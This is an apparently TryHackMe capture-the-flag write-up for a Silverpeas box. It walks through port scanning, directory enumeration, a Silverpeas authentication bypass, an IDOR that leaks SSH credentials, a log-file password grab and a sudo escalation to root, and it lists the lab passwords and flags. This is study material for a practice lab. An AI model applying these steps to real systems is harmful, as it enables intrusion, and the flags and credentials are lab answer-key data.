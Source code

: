
[[TryHackMe]] Room

**Date:** 15/01/25  
**Target IP:** 10.10.240.9

---
### **Initial Scanning**

**Nmap Results:**

- 22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- 80/tcp   open  http       nginx 1.18.0 (Ubuntu)
- 8080/tcp open  http-proxy

---
### **Exploration and Enumeration**

**Port 80 (HTTP):**

- Navigated to the website hosted on port 80.
- Contact page provides username for project manager on Silverpeas : scr1ptkiddy.

**DirSearch** :

```bash
Target: http://10.10.240.9/

[17:31:03] Starting: 
[17:31:18] 301 -  178B  - /assets  ->  http://10.10.240.9/assets/
[17:31:18] 403 -  564B  - /assets/
[17:31:28] 403 -  564B  - /images/
[17:31:28] 301 -  178B  - /images  ->  http://10.10.240.9/images/
[17:31:31] 200 -   17KB - /LICENSE.txt
[17:31:40] 200 -  771B  - /README.txt
```

```bash
Target: http://10.10.240.9:8080/

[17:31:58] Starting: 
[17:32:17] 302 -    0B  - /console/j_security_check  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/base/config.json  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/login/LoginForm.jsp  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/payments/config.json  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/  ->  /noredirect.html
[17:32:44] 302 -    0B  - /website  ->  http://10.10.240.9:8080/website/
```

Found /silverpeas endpoint on **Port 8080** which has a default Silverpeas login page.

---
### **Exploitation**

Gained access to the Silverpeas dashboard utilizing an Authentication Bypass vulnerability found on GitHub  [CVE-2024-36042](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d).

Once the dashboard loads, we are immediately prompted wit a notification message from "Manager". Opening the message navigates us to the URL : `http://10.10.240.9:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5`

Here, the ID column on inspection is found to have an IDOR vulnerability. Further, changing he ID value to 6, we obtain the following credentials within the message.

```bash
Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

SSH'd into tim@10.10.240.9 to obtain the user.txt flag : 
**THM{c4ca4238a0b923820dcc509a6f75849b}**

---
### **Post-Exploitation**

Running linpeas.sh provides the following : 

```bash
uid=0(root) gid=0(root) groups=0(root)
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

We observe that tim and tyler share the *adm* grp. We can thus check the /var/log files for potential data leaks. 

```bash
tim@silver-platter:/var/log$ cat * | grep 'tyler'
```

One of the results is the following : 

```bash
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

Using this password, we can SSH into the tyler user.

```bash
tyler@silver-platter:/tmp$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

We observe that tyler has elevated privileges. we can thus run `sudo bash` to gain root access and obtain the root flag : 
**THM{098f6bcd4621d373cade4e832627b4f6}**

### **Summary**

- Project manager Silverpeas username : scr1ptkiddy
- tim user SSH password : `cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`
- User Flag ( /home/tim/user.txt ) : **THM{c4ca4238a0b923820dcc509a6f75849b}**
- tyler user SSH password : `_Zd_zx7N823/`
- Root Flag ( /root/root.txt ) : **THM{098f6bcd4621d373cade4e832627b4f6}**
